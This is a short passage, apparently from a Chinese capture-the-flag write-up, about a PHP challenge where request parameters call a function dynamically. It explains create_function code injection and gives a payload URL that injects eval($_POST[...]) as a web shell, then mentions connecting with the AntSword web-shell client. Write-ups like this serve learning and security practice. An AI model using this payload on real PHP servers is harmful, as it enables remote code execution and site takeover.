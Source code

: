```php
$_REQUEST[‘fighter’]($_REQUEST[‘fights’],$_REQUEST[‘invincibly’]);
```

联想到**create_function代码注入**:（解释在下图）

```php
create_function(string $args,string $code)
string $args声明的函数变量部分	string $code执行的方法代码部分 
```

![image-20231022220652653](assets/image-20231022220652653.png)

```
令fighter=create_function,invincibly=;}eval($_POST[whoami]);/*
payload:/?fighter=create_function&fights=&invincibly=;}eval($_POST[tokens]);/*
```

用蚁剑连上，发现无法执行命令。查看phpinfo
